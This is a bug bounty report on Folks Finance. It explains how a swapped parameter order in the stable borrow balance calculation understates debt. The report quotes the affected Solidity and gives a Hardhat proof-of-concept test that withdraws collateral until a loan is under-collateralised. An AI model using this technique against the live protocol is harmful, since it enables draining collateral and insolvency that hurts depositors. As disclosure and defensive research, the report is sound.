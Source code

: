 
# Incorrect calculation of effective borrow value in ```getLoanLiquidity``` leads to protocol insolvency through wrong withdrawals and liquidations.

Submitted on Tue Jul 30 2024 04:21:26 GMT-0400 (Atlantic Standard Time) by @zarkk for [Boost | Folks Finance](https://immunefi.com/bounty/folksfinance-boost/)

Report ID: #33817

Report type: Smart Contract

Report severity: High

Target: https://testnet.snowtrace.io/address/0xf8E94c5Da5f5F23b39399F6679b2eAb29FE3071e

Impacts:
- Protocol insolvency

## Description
## Brief/Intro
Effective stable borrow value is calculated incorrectly with stable borrow balance to be decreasing instead of increasing, leading to protocol insolvency due to under-collateralized loan acceptance and wrong liquidations.

## Vulnerability Details
When a withdrawal or a liquidation is about to happen in Folks Finance, the collateralization of the ```UserLoan``` is checked through the ```getLoanLiquidity``` function which returns the ```effective borrow value``` and the ```effective collateral value``` of a ```UserLoan```. We can see the implementation here :
```solidity
function getLoanLiquidity(
        LoanManagerState.UserLoan storage loan,
        mapping(uint8 => IHubPool) storage pools,
        mapping(uint8 => LoanManagerState.LoanPool) storage loanPools,
        IOracleManager oracleManager
    ) internal view returns (DataTypes.LoanLiquidityParams memory loanLiquidity) {
        // declare common variables
        uint256 effectiveValue;
        uint256 balance;
        uint8 poolId;
        uint256 poolsLength;
        DataTypes.PriceFeed memory priceFeed;

        // calc effective collateral value
        poolsLength = loan.colPools.length;
        for (uint8 i = 0; i < poolsLength; i++) {
            poolId = loan.colPools[i];

            balance = loan.collaterals[poolId].balance.toUnderlingAmount(
                pools[poolId].getUpdatedDepositInterestIndex()
            );
            priceFeed = oracleManager.processPriceFeed(poolId);
            effectiveValue += MathUtils.calcCollateralAssetLoanValue(
                balance,
                priceFeed.price,
                priceFeed.decimals,
                loanPools[poolId].collateralFactor
            );
        }
        loanLiquidity.effectiveCollateralValue = effectiveValue;

        // calc effective borrow value
        effectiveValue = 0;
        poolsLength = loan.borPools.length;
        for (uint8 i = 0; i < poolsLength; i++) {
            poolId = loan.borPools[i];

            LoanManagerState.UserLoanBorrow memory loanBorrow = loan.borrows[poolId];
            balance = loanBorrow.lastStableUpdateTimestamp > 0
                ? calcStableBorrowBalance(
                    loanBorrow.balance,
                    loanBorrow.lastInterestIndex,
                    loanBorrow.stableInterestRate,
                    block.timestamp - loanBorrow.lastStableUpdateTimestamp
                )
                : calcVariableBorrowBalance(
                    loanBorrow.balance,
                    loanBorrow.lastInterestIndex,
                    pools[poolId].getUpdatedVariableBorrowInterestIndex()
                );
            priceFeed = oracleManager.processPriceFeed(poolId);
            effectiveValue += MathUtils.calcBorrowAssetLoanValue(
                balance,
                priceFeed.price,
                priceFeed.decimals,
                loanPools[poolId].borrowFactor
            );
        }
        loanLiquidity.effectiveBorrowValue = effectiveValue;
    }
```
However, if we deep on the calculations of stable borrow balance, we will see that they are done incorrectly. In order to calculate the stable borrow balance,  ```calcStableBorrow``` function is called passing the current debt (```loanBorrow.balance```), the current interest index(```loanBorrow.lastInterestIndex```), the current interest rate (```loanBorrow.stableInterestRate```) and the time passed since the last update. This happens in order to update the interest index and then the debt to be updated also, so to reflect the present. Let's see how ```calcStableBorrowBalance``` is implemented : 
```solidity
function calcStableBorrowBalance(
        uint256 balance,
        uint256 loanInterestIndex,
        uint256 loanInterestRate,
        uint256 stableBorrowChangeDelta
    ) private pure returns (uint256) {
        uint256 stableBorrowInterestIndex = MathUtils.calcBorrowInterestIndex(
            loanInterestRate,
            loanInterestIndex,
            stableBorrowChangeDelta
        );
        return balance.calcBorrowBalance(loanInterestIndex, stableBorrowInterestIndex);
    }
```
The ```stableborrowInterestIndex``` is the new updated interest index which is supposed to inflate the ```balance```. However, as we see in the ```calcBorrowBalance```, due to wrong order of parameters, the ```balance``` is decreased instead of increased. Here, is the ```calcBorrowBalance``` of ```MathUtils``` which expects as second parameter the new interest index and as third parameter the old interest index.
```solidity
function calcBorrowBalance(
        uint256 borrowBalanceAtTn_1,
        uint256 borrowInterestIndexAtT,
        uint256 borrowInterestIndexAtTn_1
    ) internal pure returns (uint256) {
        return
            borrowBalanceAtTn_1.mulDiv(
                borrowInterestIndexAtT.mulDiv(ONE_18_DP, borrowInterestIndexAtTn_1, Math.Rounding.Ceil),
                ONE_18_DP,
                Math.Rounding.Ceil
            );
    }
```
However, the parameters are passed in the opposite order and a deflated balance (debt) is returned. As a result, the ```UserLoan``` seems to have less debt than what really has.

## Impact Details
This vulnerability leads, eventually and rapidly, to the insolvency of Folks Finance. Firstly, as demonstrated in the Proof of Concept (PoC), users are able to withdraw collateral from their loans, leaving them under-collateralized. This can have catastrophic effects for the protocol as it accrues bad debt. Secondly, it prevents legitimate liquidations from happening since the debt of the violator seems smaller than it actually is. The combined effect of these issues can lead to a cascading failure of the lending system, where the protocol cannot cover the borrowed amounts with the available collateral, ultimately leading to insolvency and significant financial losses for both the protocol and its users.

## References
https://github.com/Folks-Finance/folks-finance-xchain-contracts/blob/fb92deccd27359ea4f0cf0bc41394c86448c7abb/contracts/hub/logic/UserLoanLogic.sol#L387
        
## Proof of concept
## Proof of Concept
To understand better this critical vulnerability, add this test under the ```"Withdraw" test suite of ```LoanManager.test.ts``` and run ```npm run test``` :
```javascript
it.only("Should successfuly withdraw and leave user loan under-collateralised", async () => {
      const { hub, loanManager, loanManagerAddress, pools, loanId, accountId } = await loadFixture(
        depositEtherAndStableBorrowUSDCFixture
      );

      // Deposited 1 ETH = $3,000
      // Borrowed stable 1,000 USDC = $1,000
      // stableInterestRate = BigInt(0.1e18) => 10%

      const { pool, poolId } = pools.ETH;

      time.increase(31536000); // Advance 1 year.

      const depositInterestIndex = BigInt(1.05e18);
      await pool.setUpdatedDepositInterestIndex(depositInterestIndex);


      // Now, with depositInterestIndex to equal 1.05, our 1 ETH deposit -> 1.05 ETH = $3,150 -> 70% CF = $2,100
      // Now, with stableInterestRate = 0.1 -> 1,000 USDC = $1,100 debt.
      // That means that if we try to withdraw 0.6 ETH = $1,260, we will leave in the protocol $2,100 - $1,260 = $840 and the loan will be under-collateralised.
      // So, it should revert with under-collateralised error, but it is not.

      // Withdraw 0.6 ETH = $1,260 and leave the loan under-collateralised.
      let withdrawAmount = BigInt(0.6e18);
      let withdrawFAmount = toFAmount(withdrawAmount, depositInterestIndex);
      await pool.setWithdrawPoolParams({ underlingAmount: withdrawAmount, fAmount: withdrawFAmount });
      const withdraw = loanManager.connect(hub).withdraw(loanId, accountId, poolId, withdrawAmount, false);
    });
```